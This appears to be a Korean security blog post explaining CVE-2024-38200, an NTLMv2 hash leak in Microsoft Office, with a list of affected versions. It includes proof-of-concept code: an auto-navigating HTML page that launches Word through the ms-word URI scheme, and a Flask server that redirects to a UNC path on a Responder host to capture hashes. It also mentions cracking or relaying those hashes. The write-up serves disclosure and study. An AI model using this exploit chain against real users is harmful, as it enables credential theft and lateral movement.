 ```yaml
---
title: "[하루한줄] CVE-2024-38200: Microsoft Office NTLMv2 Leak Vulnerability"
author: mungsul
tags: [mungsul, Microsoft Office, NTLM]
categories: [1day1line]
date: 2024-12-28 17:00:00
cc: true
index_img: /img/1day1line.png
---
```

## URL

- https://github.com/passtheticket/CVE-2024-38200

## Target

- Microsoft 365 Apps for Enterprise for 32-bit Systems
- Microsoft 365 Apps for Enterprise for 64-bit Systems
- Microsoft Office 2016 (32-bit edition) 16.0.5461.1001, 16.0.5461.1000 이하
- Microsoft Office 2016 (64-bit edition) 16.0.5461.1001, 16.0.5461.1000 이하
- Microsoft Office 2019 for 32-bit editions Version 2407 (Build 17830.20166)
- Microsoft Office 2019 for 64-bit editions Version 2407 (Build 17830.20166)
- Microsoft Office LTSC 2021 for 32-bit editions Version 2108 (Build 14332.20763)
- Microsoft Office LTSC 2021 for 64-bit editions Version 2108 (Build 14332.20763)
    

## Explain

Microsoft Office 에서 NTLMv2 Hash 를 Leak 할 수 있는 취약점이 발견되었습니다. victim 이 특정한 URI scheme 을 클릭하고 오피스를 실행시킨다면 victim 의 NTLMv2 Hash 가 탈취당할 수 있습니다.

Windows 에서는 UNC Path 라는게 있는데요. 공유폴더를 사용할 때  `\\[네트워크 주소]\[경로]` 와 같은 형태의 경로를 사용하신 적이 있을겁니다. 이러한 경로를 UNC Path 라 하고 이 경로로 접근하면 자동으로 Windows 의 인증 과정이 이뤄집니다.

UNC Path 에서의 인증에서 볼 수 있듯, Windows 는 공유폴더를 사용하지 않더라도 인증이 필요한 상황일 때 NTLM hash 를 전달하며 인증 과정을 수행합니다. MS Office 에서는 ms-word:ofe|u|http:// 와 같은 URI Scheme 을 써서 외부 문서를 열 수 있습니다.

```
ms-word:ofe|u|http://test.local:8080/leak/leak.docx
ms-excel:ofe|u|http://test.local:8080/leak/leak.docx

```

위의 URI scheme 을 바로 접근하면 경고창이 발생합니다. 이 경고창을 안뜨게 하는 방법이 있을까요? 굉장히 심플한 아이디어로 우회할 수 있는데요. 워드 문서에 첨부하는 URI Scheme 서버에서 302를 내려주고 Location 으로 UNC 경로를 주는 것입니다!


### PoC 설명

먼저 트리거시킬 html 에서는 `ms-word:ofe|u|http://` Scheme 을 사용하여 MS Word 를 실행시키도록 합니다. 이 Scheme 에서 지정하는 hostname 과 port 는 별도 flask 서버의 주소를 기재합니다.

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Microsoft Office</title>
</head>
<body>
    <a id="link" href="ms-word:ofe|u|http://hostname:port/leak.docx"></a>

    <script>
        function navigateToLink() {
            var link = document.getElementById('link');
            if (link) {
                var url = link.getAttribute('href');
                window.location.href = url;
            }
        }
        window.onload = navigateToLink;
    </script>
</body>
</html>

```
flask 서버에서는 Location 헤더에 UNC Path 를 에 둔 302 response 를 응답하도록 합니다.
UNC Path 에는 Responder 도구의 주소를 두어 NTLMv2 hash 를 캡처할 수 있도록 합니다.

```
from flask import Flask, make_response

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def redirect_to_unc(path):
    unc_path = r'\\\\\\\\IPaddress\\\\test.docx'

    response = make_response('', 302)
    response.headers['Location'] = unc_path
    return response

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)

```

이러면 경고창도 안뜨고 NTLMv2 hash 를 캡처할 수 있습니다. NTLMv2 hash 는 프로토콜 상 원래 NTLM hash 로 암호화된 Response 값이기에 이를 크랙하여 NTLM hash 를 얻거나, response 를 relay 하여 Lateral Movement 를 시도할 수도 있습니다.

